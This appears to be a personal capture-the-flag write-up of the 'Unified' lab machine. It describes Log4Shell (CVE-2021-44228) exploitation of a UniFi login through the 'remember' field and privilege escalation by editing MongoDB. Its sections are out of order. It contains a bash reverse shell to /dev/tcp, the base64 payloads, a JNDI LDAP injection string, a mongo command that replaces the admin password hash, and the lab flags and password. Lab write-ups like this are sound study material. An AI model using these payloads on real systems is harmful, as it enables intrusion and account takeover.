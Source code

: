 ```yaml
---
title: 'Unified:'
updated: 2023-02-05T02:04:17.0000000+00:00
created: 2023-02-04T17:32:50.0000000+00:00
---
```


BURP request:

We can edit the **remember** field then…
![image1](../../../../../_resources/image1-64.png)
This gives us the response:
![image2](../../../../../_resources/image2-49.png)
And capture it on tcpdump:
![image3](../../../../../_resources/image3-42.png)
Now we know that the system is vulnerable to attack, we can build a payload to get RCE.

We are going to use the **rogue-jndi** Java payload. Which gives us a reverse shell. We need **Maven and a JDK**:

JDK:
![image4](../../../../../_resources/image4-34.png)
Maven:
![image5](../../../../../_resources/image5-24.png)

Now we clone the Rouge-JNDI java app:
![image6](../../../../../_resources/image6-16.png)

Then we build the package using Maven:
![image7](../../../../../_resources/image7-13.png)
Finally, we are ready to host our malicious JDNI server:

First we create a payload, which will give us the reverse shell:
![image8](../../../../../_resources/image8-11.png)
echo 'bash -c bash -i \>&/dev/tcp/10.10.14.8/4444 0\>&1' \| base64
YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuOC80NDQ0IDA+JjEK

Then we can start Rogue-JDNI:
![image9](../../../../../_resources/image9-10.png)
**YOU CANNOT PUT SPACES BETWEEN COMMAS INSIDE THE CURLY BRACES, THIS DOESN'T WORK FOR SOME VERSIONS OF JAVA.**

Next we start a netcat listener to listen on port 4444 and we intercept a post request and modify it.
![image10](../../../../../_resources/image10-8.png)

"\${jndi:ldap://10.10.14.8:1389/o=tomcat}"
YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMTgvOTAwMSAwPiYxCg==

We can check our shell and see:
![image11](../../../../../_resources/image11-7.png)

This means that once we get the output from the rogue server, we have a shell on our netcat listener:

**FOR THE LOVE OF GOD, DO NOT ADD SPACES TO THE JNDI COMMAND AT ANY POINT AND REMOVE ALL NEW LINE CHARACTERS:**
![image12](../../../../../_resources/image12-5.png)

Flags:

**User-flag:** 6ced1a6a89e666c0620cdb10262ba127
**Root-flag:** e50bc93c75b634e4b272d2f771c33681

**Getting root:**

1.  Go to settings -\> site
2.  Get the root plaintext password
    1.  NotACrackablePassword4U2022
3.  Log in over ssh
![image13](../../../../../_resources/image13-4.png)
\\

Enumeration:

Nmap scan:
![image14](../../../../../_resources/image14-4.png)

We get a **unrecognised service** - which is why my nmap search took years**:**
![image15](../../../../../_resources/image15-4.png)

Something http-related? It has HTML and CSS code within it.

We can also scan for scripts, which reveals a link to a UniFI network login page:
<https://10.129.106.59:8443/manage/account/login?redirect=%2Fmanage>
![image16](../../../../../_resources/image16-4.png)
We know what version the UniFI is running by looking at this log-in page:
![image17](../../../../../_resources/image17-4.png)

We now can search for exploits. Looking at the CVE database, we see that this system is vulnerable to:
[CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228)

We can use **tcpdump** or **wireshark** to look at traffic and we can look at the port 389 which is the default LDAP port. If we can control the log messages, we can get RCE.

Exploitation:

We can try using BURP to send modified requests and eventually exploit the system for RCE by sending a malicious file to the website to get a reverse shell.

Upon a log in request, we want to send a payload via the **remember** field, so we can identify a point that is weak to injection.

**JNDI -** Java Naming and Directory Interface API: This is responsible for making calls to an API that locates resources and other program objects. A resource in this case is a program object that provides connections to system, like databases.

**LDAP -** Lightweight Directory Access Protocol: This is an open, vendor-neutral application for accessing and maintain distributed directory information services over the internet, by default the it runs on **port 389.**

We can run tcpdump, to check network traffic over the LDAP port (389):
![image18](../../../../../_resources/image18-4.png)

- Tcpdump
  - This is wireshark but on the CLI.
- -I
  - Defines the interface (eth0, wlan, tun0).
- Port
  - Defines what port to listen to.

Privilege Escalation:
We can navigate to home/Michael/ to get the user flag:
![image19](../../../../../_resources/image19-3.png)

We now need to use MongoDB to get admin:
![image20](../../../../../_resources/image20-3.png)

Now we interact with mongoDB:
![image21](../../../../../_resources/image21-3.png)

This shows us a bunch of tables,
![image22](../../../../../_resources/image22-3.png)

His password is in shadow:
\$6\$Ry6Vdbs\$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.

But oh no its hashed!

The default name for mongoDB tables is ace.

Cracking the password:

Now that we have an admin password we need to break it. We can see that \$6\$ is the hash identifier, this means that it is SHA-512, The salt of this hash will change each time it is made.

We can just upload our own hash, we make our own password using mkpasswd:
![image23](../../../../../_resources/image23-3.png)

Then we update the current password with our new password:

mongo --port 27117 ace --eval 'db.admin.update({"\_id":ObjectId("61ce278f46e0fb0012d47ee4")},{\$set:{"x_shadow":"\$6\$wd2OGv4OWuEJRJxz\$CkB73qpg4yb1Hb91W7lOpfmxp83fwuYh/.xYT9YmDaF/zD.Z.vand3/uCJbfX575Jzk/.IugFkL2R3kFBTRT30"}})'

Now we check that it worked:
![image24](../../../../../_resources/image24-3.png)

And we can log in with administrator:admin
![image25](../../../../../_resources/image25-3.png)

